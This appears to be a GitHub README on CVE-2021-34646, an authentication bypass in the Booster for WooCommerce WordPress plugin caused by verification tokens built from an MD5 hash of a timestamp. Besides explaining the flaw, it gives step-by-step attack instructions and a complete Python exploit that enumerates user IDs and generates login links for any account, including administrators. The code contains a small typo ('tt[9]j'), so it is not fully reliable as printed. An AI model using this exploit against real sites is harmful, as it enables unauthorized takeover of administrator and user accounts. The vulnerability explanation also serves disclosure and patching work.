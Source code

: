 # CVE-2021-34646

Versions of the Booster for WooCommerce WordPress plugin up to and including 5.4.3 have a security vulnerability related to authentication bypass. This vulnerability stems from a weakness in the random token generation process within the "reset_and_mail_activation_link" function. Exploiting this vulnerability enables malicious actors to impersonate users and trigger email address verification for arbitrary accounts, including those with administrative privileges. Consequently, attackers can automatically log in as the targeted user, including site administrators.

## CVE Explanation

A critical vulnerability was discovered in the WordPress plugin known as "Booster for WooCommerce" (CVE-2021-34646). When the plugin's Email Verification module was activated along with the "Login User After Successful Verification" setting, it exposed a severe security flaw. This vulnerability allowed malicious actors to gain unauthorized access to the website by impersonating any user, ranging from regular users to administrative accounts. The root cause of this issue was a weakness in the token generation process within the "reset_and_mail_activation_link" function, located in the "~/includes/class-wcj-emails-verification.php" file.

The primary issue with the plugin centered around the generation of verification tokens required to validate email addresses. Specifically, the code employed a simplistic MD5 hash of the timestamp when the request was initiated. Consequently, an attacker could easily replicate the verification code for any user account by determining the timestamp of their request.

Moreover, additional design flaws were present on the website. One notable issue was the inadvertent disclosure of the software stack used by the webpage. This disclosure inadvertently assisted attackers in identifying potential vulnerabilities in the project.

<div style="text-align:center;">
![wordpress info](images/image.png)
</div>

Furthermore, there was an oversight in the password recovery process. When attempting to recover a password with only the user's email address and clicking the submit button, the system provided distinct success or error messages. This inconsistency in responses, regardless of whether the account existed or not, inadvertently leaked valuable information to potential attackers, thereby aiding them in targeting the website.

<div style="text-align:center;">
![wordpress info](images/image1.png)
</div>

<div style="text-align:center;">
![wordpress info](images/image2.png)
</div>

In summary, this critical vulnerability presented an opportunity for attackers to exploit the website with the objective of gaining administrative access and subsequently taking control of it.

## Attack step-by-step
To attack this vulnerability, all that is needed is to download the source code below. It is a python exploit that generates login tokens based on timestamps and constructs URLs that can potentially grant unauthorized access to the targeted WordPress site. To use the exploit, one must simply access the target websites REST API endpoint, as described in the source code, and retrieve user data, more specifically, their IDs.
Then, the hacker only needs to run the script with two parameters, the target website's URL and the desired user's ID, gaining access to the user's account.

## Appendix A - Source Code

```python
# Exploit Title: WordPress Plugin WooCommerce Booster Plugin 5.4.3 - Authentication Bypass
# Date: 2021-09-16
# Exploit Author: Sebastian Kriesten (0xB455)
# Contact: https://twitter.com/0xB455
#
# Affected Plugin: Booster for WooCommerce
# Plugin Slug: woocommerce-jetpack
# Vulnerability disclosure: https://www.wordfence.com/blog/2021/08/critical=-authentication-bypass-vulnerability-patched-in-booster-for-woocommerce/
# Affected Versions: <= 5.4.3
# Fully Patched Version: >= 5.4.4
# CVE: CVE-2021-34646
# CVSS Score: 9.8 (Critical)
# Category: webapps
#
# 1:
# Goto: https://target.com/wp-json/wp/v2/users/
# Pick a user-ID (e.g. 1 - usualy is the admin)
#
# 2:
# Attack with: ./exploit_CVE-2021-34646.py https://target.com/ 1
#
# 3:
# Check-Out  out which of the generated links allows you to access the system
#
import requests,sys,hashlib
import argparse
import datetime
import email.utils
import calendar
import base64

B = "\033[94m"
W = "\033[97m"
R = "\033[91m"
RST = "\033[0;0m"

parser = argparse.ArgumentParser()
parser.add_argument("url", help="the base url")
parser.add_argument('id', type=int, help='the user id', default=1)
args = parser.parse_args()
id = str(args.id)
url = args.url
if args.url[-1] != "/": # URL needs trailing /
        url = url + "/"

verify_url= url + "?wcj_user_id=" + id
r = requests.get(verify_url)

if r.status_code != 200:
        print("status code != 200")
        print(r.headers)
        sys.exit(-1)


def email_time_to_timestamp(s):
    tt = email.utils.parsedate_tz(s)
    if tt is None: return None
    return calendar.timegm(tt) - tt[9]j

date = r.headers["Date"]
unix = email_time_to_timestamp(date)

def printBanner():
    print(f"{W}Timestamp: {B}" + date)
    print(f"{W}Timestamp (unix): {B}" + str(unix) + f"{W}\n")
    print("We need to generate multiple timestamps in order to avoid delay related timing errors")
    print("One of the following links will log you in...\n")

printBanner()



for i in range(3): # We need to try multiple timestamps as we don't get the exact hash time and need to avoid delay related timing errors
        hash = hashlib.md5(str(unix-i).encode()).hexdigest()
        print(f"{W}#" + str(i) + f" link for hash {R}"+hash+f"{W}:")
        token='{"id":"'+ id +'","code":"'+hash+'"}'
        token = base64.b64encode(token.encode()).decode()
        token = token.rstrip("=") # remove trailing =
        link = url+"my-account/?wcj_verify_email="+token
        print(link + f"\n{RST}")

```
